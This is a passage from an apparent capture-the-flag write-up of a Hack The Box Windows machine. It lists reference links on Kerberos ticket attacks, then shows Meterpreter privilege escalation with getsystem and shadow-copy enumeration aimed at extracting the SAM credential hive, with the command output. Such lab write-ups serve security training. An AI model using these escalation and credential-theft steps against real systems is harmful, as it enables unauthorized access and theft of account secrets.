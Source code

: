 * [Kerberos Protocol Explained / VbScrub](https://vbscrub.com/2020/05/13/kerberos-protocol-explained/)
* [How Attackers Use Kerberos Silver Tickets to Exploit Systems – Active Directory Security](https://adsecurity.org/?p=2011)
* [Silver & Golden Tickets - hackndo](https://en.hackndo.com/kerberos-silver-golden-tickets/)
* [Погружение в AD: разбираем продвинутые атаки на Microsoft Active Directory и способы их детекта / Блог компании Positive Technologies / Хабр](https://habr.com/ru/company/pt/blog/423903/)
* [A cheatsheet with commands that can be used to perform kerberos attacks](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
* [kerberos - What does "over" in "overpass-the-hash" mean? - Stack Overflow](https://stackoverflow.com/questions/55531799/what-does-over-in-overpass-the-hash-mean)

# 4. Resurrection

## Infiltrating SAM from Shadow Copy Volume (VSS)

Next I will enumerate the box for shadow copy volumes (that can also be done with native cmd.exe as `vssadmin list shadows`):

```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > run post/windows/manage/vss_list
[*] Volume Shadow Copy service is running.
[*] Software Shadow Copy service is running.
[*] Getting data for Shadow Copy {046396E4-6312-45B7-96CD-5E5F6FB017EF} (This may take a minute)
[+] Shadow Copy Data
================
 Field                Value
 -----                -----
 ClientAccessible     TRUE
 Count                1
 DeviceObject         \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
 Differential         TRUE
 ExposedLocally       FALSE
 ExposedName
 ExposedRemotely      FALSE
 HardwareAssisted     FALSE
 ID                   "{046396E4-6312-45B7-96CD-5E5F6FB017EF}"
 Imported             FALSE
 NoAutoRelease        TRUE
 NoWriters            TRUE
 NotSurfaced          NotSurfacedFALSE
 OriginiatingMachine  dev.htb.local
 Persistent           TRUE
 Plex                 FALSE
 ProviderID           {B5946137-7B9F-4925-AF80-51ABD60B20D5}
 ServiceMachine       dev.htb.local
 SetID                {001689E5-F1A7-40A8-8B5B-8B6371BD07CA}
 State                12
 Transportable        FALSE
 VolumeName           \\?\Volume{21385651-0000-0000-0000-602200000000}\
```
